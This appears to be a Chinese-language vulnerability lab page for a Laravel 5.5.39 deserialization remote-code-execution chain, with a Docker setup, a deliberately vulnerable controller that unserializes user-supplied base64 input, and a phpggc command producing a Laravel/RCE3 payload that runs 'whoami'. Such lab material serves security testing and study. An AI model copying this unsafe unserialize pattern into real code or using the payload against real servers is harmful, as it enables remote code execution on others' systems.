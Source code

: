 ## Laravel 反序列化链 RCE3

### 漏洞环境

执行如下命令启动一个 `laravel5.5.39` 的环境：

```
docker-compose up -d
```

访问 http://x.x.x.x/index.php/test ，看到 `hello world` 既搭建成功

测试代码

```php
<?php
namespace App\Http\Controllers;

class TestController extends Controller
{
	public function index()
	{
		if(isset($_GET['a']))
		{
			unserialize(base64_decode($_GET['a']));
		}
		else
		{
			echo "hello world";
		}
	}
}
```

### 漏洞影响

5.5.39

### 漏洞分析

暂未开放

### 漏洞复现

使用 `phpggc` 生成 `base64` 编码后的 `payload`

```
php phpggc Laravel/RCE3 system whoami -b
```

![image-20210913220824735](./image01.png)

查看源代码可以看到 `www-data` 即执行成功

### 漏洞 EXP

暂未开放



